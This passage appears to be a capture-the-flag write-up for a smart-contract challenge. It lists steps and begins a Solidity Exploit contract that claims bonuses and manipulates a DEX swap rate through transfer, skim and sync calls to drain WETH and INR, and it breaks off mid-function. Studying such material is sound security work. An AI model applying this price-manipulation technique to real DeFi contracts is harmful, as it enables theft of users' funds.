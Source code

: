 ### Exploit
---
1. Claim the initial WETH bonus and stake all received WETH to convert it to INR.
2. Withdraw all WETH from the DEX at a 1:1 INR:WETH ratio.
3. Claim the second Ether bonus after reaching the required WETH balance.
4. Transfer 1 WETH to the DEX to manipulate the swap rate.
5. Swap 1e18 WETH for INR at the manipulated rate, then withdraw most of the INR from the DEX.
6. Send the same amount of INR back to the DEX and transfer 10,000e18 WETH to set the swap rate to 1:10,000.
7. With the manipulated swap rate, withdraw all WETH from the finance contract using some INR, and then withdraw WETH from the DEX again to further increase the WETH price.
8. Withdraw all INR from the finance contract at the manipulated rate, then send INR and WETH to the DEX to restore the initial LP amounts.

```solidity
contract Exploit {
    Setup setup;
    DEX dex;
    Finance finance;
    address WETH;
    address INR;

    receive() external payable {}
    constructor(Setup _setup) {
        setup = _setup;
        dex = setup.dex();
        finance = setup.finance();
        WETH = setup.WETH();
        INR = setup.INR();
    }
    function stage1() external {
        setup.claimBonus1();
        finance.snapshot();
        dex.sync();
        finance.stake{value: address(this).balance}(WETH);
        
        // 1. withdraw all WETH from dex
        uint256 amount = IERC20(WETH).balanceOf(address(this));
        IERC20(WETH).transfer(address(dex), amount);
        dex.swap(WETH, amount, 0, address(this));
        IERC20(INR).transfer(address(dex), IERC20(WETH).balanceOf(address(dex)));
        dex.skim(address(this));
        
        // 2. claim bonus2
        setup.claimBonus2();
        IERC20(WETH).transfer(address(dex), 1);
        finance.snapshot();
        dex.sync();
    }

    function stage2() external {
        // 3. set swap rate 10000:1
        IERC20(WETH).transfer(address(dex), 1e18);
        dex.swap(WETH, 1, 0, address(this));
        uint256 gap = IERC20(WETH).balanceOf(address(dex)) - IERC20(INR).balanceOf(address(dex));
        IERC20(INR).transfer(address(dex), gap);
        IERC20(WETH).transfer(address(dex), 10000e18);
        dex.sync();
    }

    function stage3() external {
        // 4. withdraw ETH from finance
        finance.snapshot();
```